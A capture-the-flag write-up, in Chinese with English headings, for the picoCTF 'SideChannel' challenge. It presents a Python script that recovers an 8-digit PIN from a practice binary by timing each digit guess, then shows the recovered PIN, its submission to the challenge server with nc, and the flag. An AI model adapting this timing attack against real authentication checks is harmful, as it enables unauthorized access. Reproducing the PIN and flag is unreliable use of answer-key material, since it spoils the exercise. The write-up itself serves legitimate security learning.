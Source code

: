 # PicoCTF - SideChannel
## Description
> There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag? Download the PIN checker program here pin_checker Once you've figured out the PIN (and gotten the checker program to accept it), connect to the master server using nc saturn.picoctf.net 50364 and provide it the PIN to get your flag.
> 
> Hint 1: Read about "timing-based side-channel attacks."
> Hint 2: Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.
> Hint 3: Don't run your attacks against the master server, it is secured against them. The PIN code you get from the pin_checker binary is the same as the one for the master server.
## Recon
這一題也是直接看[^this-problem-wp]才知道怎麼解，應該說原本大概也猜到是這樣解，但過程一直不順利，所以沒寫出來，最主要是一開始沒看hint所以reverse/binary exploitation花了太多時間，結果一無所獲，但大致上思路沒差多少，也就是輸入的pin digit如我是對的就會比一般錯誤的pin digit還要多花點時間處理，所以我們就可以鎖定每一個digit原本到底是甚麼
## Exploit
```python
from time import *
from subprocess import *
from tqdm import trange

time_lapse = []
guess_pin = list("99999999")
for i in trange(8):
    for j in range(10):
        guess_pin[i] = str(j)
        payload = "".join(guess_pin)
        start = time_ns()
        p = Popen("./pin_checker", stdin=PIPE, stdout=PIPE, universal_newlines=True, shell=True)
        p.communicate(input=payload)
        time_lapse.append(time_ns() - start)
    guess_pin[i] = str(time_lapse.index(max(time_lapse)))
    time_lapse = []

print("".join(guess_pin))
```
另外這隻程式不是百分百保證成功，還是要多跑幾次確定一下是不是每次都一樣再進行確認

```bash
$ echo 48390513 | ./pin_checker
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.
$ echo 48390513 | nc saturn.picoctf.net 50364
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_9803bd25}
```

Flag: `picoCTF{t1m1ng_4tt4ck_9803bd25}`
## Reference
[^this-problem-wp]:[ picoGym (picoCTF) Exercise: SideChannel ](https://youtu.be/6-GmrNobEyA?si=0HVfVpNwLT_yNm3G)
